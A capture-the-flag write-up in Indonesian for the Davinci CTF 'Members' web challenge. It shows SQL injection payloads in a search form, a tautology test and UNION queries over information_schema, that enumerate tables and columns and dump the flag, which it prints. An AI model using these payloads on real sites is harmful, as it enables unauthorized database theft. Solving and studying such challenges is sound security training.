




# Davinci CTF

## Members

## Informasi Soal
| Kategori | Poin |
| -------- | ---- |
| Website | 10 |

### Deskripsi
> Can you get more information about the members?
>
>http://challs.dvc.tf:1337/members

## Cara Penyelesaian
Dari soal tersebut, saat dibuka menampilkan halaman website menu pencarian maka selanjutnya dicoba untuk menambahkan query SQL Injection pada form pencarian.
```
"or""="
```
Sehingga menampilkan hasil yang sama dari sebelumnya, yaitu semua data dari member.


Dari hal tersebut dapat kita asumsikan bahwa website tersebut rentan terhadap SQL Injection pada form search nya. Selanjutnya dilakukan Union Attack dengan menggunakan query sebagai berikut.
```
" and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database() -- -
```
Maka didapatkan hasil sebagai berikut.



Dimana didalam hasil tersebut terdapat 2 tabel yaitu ```members``` dan ```supra_secret_table``` yang mana selanjutnya dilakukan dump pada tabel ```supra_secret_table``` dengan menggunakan payload sebagai berikut.
```
" and 1=2 union select group_concat(column_name),3,4 from information_schema.columns where table_schema = database() and table_name = "supa_secret_table" -- -
```
Didapatkan hasil yaitu terdapat dua kolom id dan flag.



Kemudian dari kolom tersebut kita lihat isinya dengan menggunakan query sebagai berikut.
```
" and 1=2 union select group_concat(id,flag),3,4 from supa_secret_table -- - -- -
```
Dan didapatkan flag dari soal.


## Flag

> dvCTF{1_h0p3_u_d1dnt_us3_sqlm4p}
